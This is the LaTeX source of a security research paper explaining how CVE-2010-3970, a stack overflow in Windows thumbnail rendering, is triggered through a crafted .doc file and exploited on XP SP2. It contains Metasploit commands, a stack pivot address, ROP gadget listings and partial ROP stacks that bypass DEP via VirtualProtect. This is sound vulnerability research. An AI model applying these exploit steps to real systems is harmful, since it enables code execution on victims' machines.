% ----------------------------------------------------------------
% Article Class (This is a LaTeX2e document)  ********************
% ----------------------------------------------------------------
\documentclass[12pt, titlepage]{article}
\usepackage[english]{babel}
\usepackage[utf8]{inputenc}
\usepackage{geometry}
\usepackage{color}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{amsfonts}
\usepackage{here}


\pagestyle{headings}

\definecolor{darkgray}{rgb}{0.47,0.79,0.47}

\lstset{                            %
    language=Octave,                % choose the language of the code
    basicstyle=\footnotesize,       % the size of the fonts that are used for the code
    numbers=left,                   % where to put the line-numbers
    numberstyle=\footnotesize,      % the size of the fonts that are used for the line-numbers
    stepnumber=0,                   % the step between two line-numbers. If it's 1 each line
                                    % will be numbered
    numbersep=5pt,                  % how far the line-numbers are from the code
    backgroundcolor=\color{white},  % choose the background color. You must add \usepackage{color}
    showspaces=false,               % show spaces adding particular underscores
    showstringspaces=false,         % underline spaces within strings
    showtabs=false,                 % show tabs within strings adding particular underscores
    frame=single,
    tabsize=2,	                    % sets default tabsize to 2 spaces
    captionpos=b,                   % sets the caption-position to bottom
    breaklines=true,                % sets automatic line breaking
    breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
    title=\lstname,                 % show the filename of files included with \lstinputlisting;
                                    % also try caption instead of title
    escapeinside={\%*}{*)},         % if you want to add a comment within your code
    morekeywords={*,...},           % if you want to add more keywords to the set
    keywordstyle={\color{blue}},
    commentstyle={\color{darkgray}},
    stringstyle={\color{red}},
    framexleftmargin=3pt,
    framexrightmargin=3pt,
    framextopmargin=3pt,
    framexbottommargin=3pt
}

\hypersetup{
    colorlinks = true,
    linkcolor=black,  % color of internal links
    citecolor=black,  % color of links to bibliography
    urlcolor=blue,    % color of external links
    pagebackref=true,
    implicit=false,
    bookmarks=true,
    bookmarksopen=true,
    pdfdisplaydoctitle=true
}

% ----------------------------------------------------------------

% ----------------------------------------------------------------
\begin{document}

\title{CVE-2010-3970 Demystified.}
\author{0vercl0k aka Souchet Axel.\\Email: \href{mailto:0vercl0k@tuxfamily.org}{0vercl0k@tuxfamily.org}\\ Twitter: \href{https://twitter.com/0vercl0k}{@0vercl0k}}
\date{}
\maketitle
\clearpage
\tableofcontents
\clearpage

% ----------------------------------------------------------------

% ----------------------------------------------------------------
\part{Introduction}
Found by \emph{Moti Joseph} and \emph{Xu Hao}, and presented during a talk at the \textbf{POC2010}, this critical vulnerability targets several versions of Windows: \emph{XP SP2}, \emph{XP SP3}, \emph{VISTA SP1} etc. This paper will give you details about the bug itself, how the stack-overflow can be triggered, and how it can be exploited in a \emph{Microsoft Windows XP SP2 FR} environment. However, if this document is not clear enough I suggest you the \href{http://www.exploit-db.com/download pdf/15899}{\nolinkurl{researchers' slides}} or the \href{https://twitter.com/jduck1337}{\nolinkurl{@jduck1337}} metasploit exploit.
\clearpage

\part{The bug}
\section{Presentation}
Here we are, in this section I am going to introduce the stack-overflow in details. So firstly, the vulnerability was spotted in \emph{ConvertDIBSECTION} called by \emph{ConvertDIBSECTIONToThumbnail}, an exported function from shimgvw.dll module. By the way this module is the Windows Photo Gallery Viewer (seen in the dll description). Thus when the explorer loads shimgvw to process an evil crafted BMP the worst happens..
Ok, now that we know all this different information, we can start a little static analysis about the function itself. For that, we will load the module into IDA:
\begin{figure}[h]
    
\includegraphics[width=450pt]{pics/idaexportedaddr.png}
    \caption{ConvertDIBSECTIONToThumbnail exported function}
    \label{ConvertDIBSECTIONToThumbnail exported function}
\end{figure}

This function will be loaded at the virtual address \emph{0x5CE5006E} (if not relocated of course), and we see the function does not have many code: it is a good thing for us, the analysis will be easier.
I think it is time to speak about the vulnerability: An MS .doc file can have a thumbnail embedded, this thumbnail uses the BMP structure (no compression needed). This file format is quite easy to understand, you have:
\begin{enumerate}
  \item First part: a sort of an header, \emph{BITMAPINFOHEADER}. In this header you can find the picture size, if it is compressed or not etc.
  \lstset{language=C,caption=BITMAPINFOHEADER structure}
    \begin{lstlisting}
      typedef struct tagBITMAPINFOHEADER {
      DWORD biSize;
      LONG  biWidth;
      LONG  biHeight;
      WORD  biPlanes;
      WORD  biBitCount;
      DWORD biCompression;
      DWORD biSizeImage;
      LONG  biXPelsPerMeter;
      LONG  biYPelsPerMeter;
      DWORD biClrUsed;
      DWORD biClrImportant;
    } BITMAPINFOHEADER, *PBITMAPINFOHEADER;
  \end{lstlisting}
  \item Second part: your pixels coded in three parts (Red/Green/Blue)

  \lstset{language=C,caption=RGBQUAD structure}
    \begin{lstlisting}
      typedef struct tagRGBQUAD {
      BYTE rgbBlue;
      BYTE rgbGreen;
      BYTE rgbRed;
      BYTE rgbReserved;
    } RGBQUAD;
  \end{lstlisting}
\end{enumerate}

The bug appears when the \emph{CreateSizedDIBSECTION} parses the BMP header to create its own copy in memory, and more specifically how the field \emph{biClrUsed} is checked. This field is used to know how many colors are used by the bitmap file, and according to that disassembly we can bypass this little check:

  \lstset{language={[x86masm]Assembler},caption=The stack-overflow,morecomment=[l]{;}}
    \begin{lstlisting}
        mov     [ebp+bmi.bmiHeader.biClrUsed], eax
        ; [...]
        mov     ecx, eax
        cmp     ecx, 100h
        jg      error
        add     esi, 28h
        lea     edi, [ebp+bmi.bmiColors]
        rep movsd   ;move ds:esi -> ds:edi, repeated ecx times
    \end{lstlisting}
Here we can see a simple check concerning the biClrUsed field: cmp ecx, 100h, but keep in mind that the x86 cmp instruction performs a \textbf{signed} check. Thus if we inject a negative value in this field we bypass the check and trigger the stack-overflow. Take a simple example, $biClrUsed = -1 = 0xFFFFFFFF$, and actually $0xFFFFFFFF < 0x100$ in signed representation so we do not jump to the error label. Now it tries to write content pointed by esi into memory pointed by edi (that points into the stack) until ecx equals zero. Result: you will try to write out of the stack limit, and the CPU raises an exception. However this bug is very interesting for, at least, two reasons:
\begin{itemize}
  \item We can inject null bytes without problems.
  \item We don't have a size constraint concerning the payload (approximately several hundred bytes for our exploit).
\end{itemize}
But we will \textbf{inevitably} raise an exception with a negative value for the following reason. The minimum value you can have in an \emph{unsigned int representation} with a \emph{signed int} is 0x80000000 (Sign bit = 1), thus the instruction movsd will be repeated around \textbf{2000000000} times trying to move a dword. The only solution to exploit is to overwrite an \emph{SEH} structure in the stack.

\section{Trigger the vulnerability}
In this section, we will focus on how the bug is triggered from the explorer. To do that, we can in a first part use the @jduck1337 exploit to create an evil .doc file:
\lstset{caption=Usage of metasploit to generate an exploit}
\begin{lstlisting}
    msf > use exploit/windows/fileformat/ms11_xxx_createsizeddibsection
    msf exploit(ms11_xxx_createsizeddibsection)> set PAYLOAD windows/speak_pwned
    PAYLOAD => windows/speak_pwned
    msf exploit(ms11_xxx_createsizeddibsection) > show options
    msf exploit(ms11_xxx_createsizeddibsection) > exploit

    [*] Creating 'msf.doc' file ...
    [*] Generated output file C:/Metasploit/msf3/data/exploits/msf.doc
\end{lstlisting}

We boot our environment, attach OllyDbg to explorer.exe, activate the thumbnail and the magic appears:

\lstset{language={[x86masm]Assembler},caption=Access violation,morecomment=[l]{;}}
    \begin{lstlisting}
        5CE4FC00   F3:A5 REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
        ;Acces violation when writing to [01400000]
    \end{lstlisting}

Great, we can trigger the vulnerability with the jduck XP SP3 exploit and see that our investigation is so far pretty good. By the way you see this exploit is not valid in an XP SP2 environment (different SEH structure offset). I think it is time to study the basics of an MS .doc file in order to read the BMP header of the thumbnail embedded into the .doc file. The \emph{Compound File Binary File Format} or the CFBFB is a file format developed by Microsoft Windows to store several data/files/streams in a single file. In fact, this file format is kind of "container", and it is organized like the FAT filesystem. If you are interested by the internals of this file format, you can find its specifications here: \href{http://msdn.microsoft.com/en-us/library/cc546605.aspx}{http://msdn.microsoft.com/en-us/library/cc546605.aspx}. By the way, .doc file is not the only one to use this file format.

\begin{figure}[h]
    
\includegraphics{pics/cfbf.png}
    \caption{High level view of CFBF file.}
    \label{High level view of CFBF file.}
\end{figure}

Compound File Explorer, CFX, is a software which allows you to walk through the different sections/streams of your file. With this tool you can easily check if an MS doc file embeds a thumbnail. For that purpose, you can check the '\textbf{SummaryInformation}' stream like this:

\begin{figure}[H]
    
\includegraphics{pics/summary.png}
    \caption{SummaryInformation stream.}
    \label{SummaryInformation stream.}
\end{figure}

I think it is time to think about how we are going to exploit this bug :).
\clearpage

\part{The exploitation}
\section{Evil plan}
Ok, before we start, we need more information about our target: explorer.exe. Which security features are enabled ? on which modules ?
In order to answer these questions, I have used the great \href{http://redmine.corelan.be:8800/projects/pvefindaddr}{pvefindaddr} python script written by \href{http://www.corelan.be/}{c0relanc0d3r}. Let's go, explorer.exe is protected by the \textbf{DEP}, we have no-ASLR (remember that we exploit the software on WinXP), and only two modules have \textbf{/SAFESEH:NO}:

\lstset{caption=Find nosafeseh modules with pvefindaddr}
\begin{lstlisting}
    !pvefindaddr nosafeseh
    [...]
** [+] Gathering executable / loaded module info, please wait...
** [+] Finished task, 75 modules found
Safeseh unprotected modules :
* 0x58640000 - 0x586ca000 : l3codeca.acm  (C:\WINDOWS\System32\l3codeca.acm)
* 0x72c60000 - 0x72c68000 : msacm32.drv  (C:\WINDOWS\system32\msacm32.drv)
\end{lstlisting}

Like Moti Joseph and Xu Hao, I have \emph{l3codeca.acm} loaded. If you want to force the loading of the module, you can use the Windows register key AppInit\_Dlls. Anyway the purpose of this paper is just to show a real ROP example :).
So, the plan to exploit the Windows' explorer is divided into several steps:
\begin{enumerate}
  \item Overwrite a SEH structure in the stack, just make sure memcpy will raise an exception during the copy of our thumbnail in the stack
  \item Do a stack-pivot
  \item ROPing to setup a correct stack so as to call VirtualProtect()
  \item Return into your shellcode !
\end{enumerate}
Time to begin our machiavellian plan :)

\section{Stack-pivot}
The tricky part in this exploitation is to find a valid address, in order to control the execution flow after the exception. l3codeca.acm is the main target for our purpose, do not forget this module have SAFESEH security \textbf{disabled}. Before searching interesting sequences of instructions, we have to check the state of CPU registers, the stack etc. With this information we know which types of instructions we want so as to pivot the stack into our payload.
\begin{figure}[h]
  
\includegraphics{pics/stackstateexception.png}
  \caption{Register+stack state after exception}
  \label{Register+stack start after exception}
\end{figure}

Unfortunately we do not see any special value that could be used in our payload but anyway you will see we have a *lot* of gadgets to realize our exploitation. So now as I said earlier we need to find a sequence of instructions in order to pivot the stack. According to the previous picture, we need a simple \emph{ADD ESP, x / RET} where this mathematical expression is verified: $0x3e4 \le x$.
We can use the '\emph{rop}' option from \emph{pvefindaddr} extension to find a stack pivot:
\lstset{caption=Find stack pivot in l3codeca.acm module}
\begin{lstlisting}
    !pvefindaddr rop -m l3codeca.acm
    [...]
    Search complete, 9808 gadgets generated, check rop_l3codeca.acm_v1.9.0.0305_xp_5.1.2600.txt
\end{lstlisting}

This module is a very good target, you can see a lot of pivots and one of them is:
\lstset{language={[x86masm]Assembler},caption=Stack pivot in l3codeca.acm (/SAFESEH:NO),morecomment=[l]{;}}
    \begin{lstlisting}
5864B006   81C4 A8040000    ADD ESP,4A8 ; w00tz \o/
5864B00C   C3               RETN
    \end{lstlisting}

It is just perfect, with this gadget the stack pointer will point to the data we control. We will put our ropstack there to break the DEP.

\section{ROP vs DEP}
This part is maybe the one you are waiting for since the beginning of this paper. The aim is just to break the \textbf{non-permanent DEP} like an el8-infosec-guy. I know a simple call to \emph{NtSetProcessInformation} (the '\emph{depxp3}' option from \emph{pvefindaddr} can be very useful) can enable the execution on the stack but here I just want to exercise my ROP-kungfu. So we will call the \emph{VirtualProtect} function to enable execution on the stack page. Here a little summuary of the plan:
\begin{enumerate}
  \item Jump over the arguments needed to call \emph{VirtualProtect}.
  \item Modify in a reliable way the return address of \emph{VirtualProtect} (in order to execute our paylaod \textbf{after} the API call).
  \item Modify the \emph{lpAddress} argument.
  \item Pivot the stack to call \emph{VirtualProtect}.
\end{enumerate}

And here is a little picture to make sure you have understood:
\begin{figure}[H]
  
\includegraphics{pics/stack-shift-ret.png}
  \caption{Summary}
  \label{Summary}
\end{figure}

Ok, time to use the beloved \emph{pvefindaddr} to find our rop-gadget set:
\lstset{caption=Find all the ROP gadgets in all modules loaded by the Windows' explorer}
\begin{lstlisting}
    !pvefindaddr rop
    [..The ideal time to have a nice cup of coffee ..]

    D:\TODO\2490606>wc -l rop.txt
    154775 rop.txt
\end{lstlisting}

Quite unbelievable thing that we have around \textbf{14M} of ROP gadgets. So the first step is to sort them, and to select some of them. Those I have selected are here, it is kind of toolbox:
\lstset{caption=gadgets ROP-box}
\begin{lstlisting}
Save ESP address:
    5B099EE7 :  # PUSH ESP # MOV EAX,EDX # POP EDI # RETN 	[Module : UxTheme.dll]  **
    6FF25365 :  # PUSH EDI # POP EAX # RETN 	[Module : NETAPI32.dll]  **

Jump over the arguments:
    77C190C3 :  # ADD ESP,18 # POP EBP # RETN 	[Module : msvcrt.dll]  **

Play with registers:
    77743A33 :  # INC EDI # RETN 	[Module : SHDOCVW.dll]  **  - [Ascii printable]
    77393CC0 :  # DEC EDI # RETN 	[Module : comctl32.dll]  **

    774D0391 :  # ADD EAX,23C # RETN 	[Module : ole32.dll]  **


Write a dword:
    77A2C665 :  # MOV DWORD PTR DS:[EDI],EAX # XOR EAX,EAX # INC EAX # POP ESI # POP EBX # POP EBP # RETN 8 	[Module : CRYPT32.dll]  **

Pivot the stack:
    5B0B5593 :  # XCHG EAX,ESP # RETN 	[Module : UxTheme.dll]  **

EAX <- EDI:
    7C985932 :  # MOV ECX,EDI # INC DWORD PTR SS:[EBP+3B367CC0] # RETN 	[Module : ntdll.dll]  **
    0101FA4F :  # MOV EAX,ECX # RETN 	[Module : Explorer.EXE]  **
\end{lstlisting}

Ok we have all that what we need to break the DEP and to execute any payload so here we go :). Keep in mind that we want to do that:
\lstset{caption=VirtualProtect call}
\begin{lstlisting}
VirtualProtect(addrStack, 0x100, 0x40, addrMemoryWritable);
\end{lstlisting}

A writable memory is easy to find, you just have to look at the writable section and to choose a constant address: 0x010462E0. We can even check the properties of the page with \emph{pvefindaddr}:

\lstset{caption=Check with pvefindaddr that 0x010462E0 is writable}
\begin{lstlisting}
!pvefindaddr info 0x010462E0
   Information about address 010462E0 :
   ** [+] Gathering executable / loaded module info, please wait...
   ** [+] Finished task, 65 modules found
   Modules C:\WINDOWS\system32\shimgvw.dll
   [Module : Explorer.EXE] v6.00.2900.2180 [Fixup: ** NO **]  [SafeSEH: Yes - ASLR: ** No (Probably not) **]] {PAGE_READWRITE} - C:\WINDOWS\Explorer.EXE [Memory Type : Image] * System dll : 1
    **
   Instruction at 010462E0 : ADD BYTE PTR DS:[EAX],AL
\end{lstlisting}

So far our ropstack looks like that:
\lstset{caption=Basic ROPStack, language=C}
\begin{lstlisting}
DWORD ropStack[] = {
    0x7C801AD0, //VirtualProtect address
    0xF4F4F4F4, //return address :: modified later in the ropstack :)
    0xEEEEEEEE, //lpAddress :: modified later in the ropstack :)
    0x00000100, //dwSize
    0x00000040, //PAGE_EXECUTE_READWRITE
    0x010462E0, //lpOldProtect
    0xF4F4F4F4  //pop ebp :: padding
};
\end{lstlisting}

Now we need to increment the stack pointer to complete the second step: writing dynamically the two DWORDs thanks to several gadgets. But before that, it is interesting for us to save ESP somewhere. Actually we will use the EDI and the EAX register to write in the stack, so we keep in memory the stack pointer in EAX and EDI. In order to do so, we will make a combination of three gadgets, two of them are used to save ESP, and the last one to jump over the \emph{VirtualProtect} call stack.
\lstset{caption=ESP saving and jumping over the call stack, language=C}
\begin{lstlisting}
DWORD ropStack[] = {
    0x5B099EE7, //push esp / mov eax, edx / pop edi / retn :: save esp in edi
    0x6FF25365, //push edi / pop eax / retn :: save esp in eax
    0x77C190C3, //add esp, 18 / pop ebp / retn :: pivoting the stack

    0x7C801AD0, //VirtualProtect address
    0xF4F4F4F4, //return address :: modified later in the ropstack :)
    0xEEEEEEEE, //lpAddress :: modified later in the ropstack :)
    0x00000100, //dwSize
    0x00000040, //PAGE_EXECUTE_READWRITE
    0x010462E0, //lpOldProtect
    0xF4F4F4F4  //pop ebp :: padding
};
\end{lstlisting}

Don't worry guys we have done the most difficult part. Now we are able to manipulate the EDI register to point on our DWORD and to use the 'writer' gadget to update the call stack. The return address just needs a special treatment because we want it to point after the whole ropstack in order to jump to our nopsled and then to execute the \textbf{3v1l} payload. A simple '\emph{add eax, 0x23C / ret}' works :).
If you want to look at my ropstack, you will find everything you want at the end of this paper :) ; source exploit, beers and \textbf{donuts}.\\
Finally, I want to give some information about the .doc file creation. As I said the .doc format is a MS file format, so MS provides some functions to manipulate this type of file. You can open/create a file with \emph{StgCreateDocfile}/\emph{StgOpenStorageEx} and add streams with \emph{IPropertySetStorage::Create}. By the way it is a \textbf{cpp} implementation, and I have to admit that it is not so straightforward to use it.
\clearpage

\part{Conclusion}
To conclude we can say that this bug was very interesting, and the exploitation was quite easy. Quite easy only because we have found a perfect stack pivot in l3codeca.acm. I have attempted to exploit the vulnerability without this module and I did not find any solution. Jduck used a cool technique for his metasploit module, he calls it 'trigger-fuzzing'. The idea is to perform a return on each code instruction in the module and analyze the results to find our injected data into the stack. Quite awesome isn't it ?\\
You will find the exploit source here: \href{http://0vercl0k.tuxfamily.org/bl0g/Sources/CVE-2010-3970/thumbpwn.cpp.html}{http://0vercl0k.tuxfamily.org/bl0g/Sources/CVE-2010-3970/thumbpwn.cpp.html}.

It is the end dudes, I hope you enjoyed this little paper. My apologize for my approximate english :)). If you spot any wrong things in this paper, you can contact me via a comment or by email:
\lstset{caption=Email address mystified, language=bash}
\begin{lstlisting}
python -c 'print "MHZlcmNsMGsgPGF0PiB0dXhmYW1pbHkgPGRvdD4gb3Jn".decode("base64")'
\end{lstlisting}

Special thanks to x86 and Thomas :).
\end{document}
% ----------------------------------------------------------------
